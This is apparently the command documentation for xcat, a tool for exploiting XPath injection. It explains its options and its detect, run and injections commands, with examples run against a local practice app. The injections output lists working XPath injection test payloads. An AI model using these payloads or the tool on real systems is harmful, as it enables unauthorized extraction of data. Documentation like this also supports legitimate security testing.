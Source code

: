 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

To attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

xcat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then xcat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

xcat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](OOB-server.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection xcat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run

This is the core function of xcat. It will retrieve the whole document that is being queried with the
vulnerable xpath expression.

```shell
$ xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer
<root first="1" second="2" third="">
	<!--My lovely library-->
	<books>
		<book>
			<title>
				Rogue Lawyer
			</title>
			<author>
				John Grisham
			</author>
...
```

# shell

This is one of the most powerful features of xcat. 
Please see [the dedicated `shell` documentation here](the-shell.md)


# injections

This command prints out all the injections xcat currently can use, along with the sample expressions 
xcat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
Name: integer
 Example: /lib/book[id=?]
 Tests:
   ? and 1=1 = passes
   ? and 1=2 = fails
Name: string - single quote
 Example: /lib/book[name='?']
 Tests:
   ?' and '1'='1 = passes
   ?' and '1'='2 = fails
Name: string - double quote
 Example: /lib/book[name="?"]
 Tests:
   ?" and "1"="1 = passes
   ?" and "1"="2 = fails
Name: attribute name - prefix
 Example: /lib/book[?=value]
 Tests:
   1=1 and ? = passes
   1=2 and ? = fails
Name: attribute name - postfix
 Example: /lib/book[?=value]
 Tests:
   ? and not 1=2 and ? = passes
   ? and 1=2 and ? = fails
Name: element name - prefix
 Example: /lib/something?/
 Tests:
   .[true()]/? = passes
   .[false()]/? = fails
Name: element name - postfix
 Example: /lib/?something
 Tests:
   ?[true()] = passes
   ?[false()] = fails
Name: function call - last string parameter - single quote
 Example: /lib/something[function(?)]
 Tests:
   ?') and true() and string('1'='1 = passes
   ?') and false() and string('1'='1 = fails
Name: function call - last string parameter - double quote
 Example: /lib/something[function(?)]
 Tests:
   ?") and true() and string("1"="1 = passes
   ?") and false() and string("1"="1 = fails
Name: other elements - last string parameter - double quote
 Example: /lib/something[function(?) and false()] | //*[?]
 Tests:
   ?") and false()] | //*[true() and string("1"="1 = passes
   ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
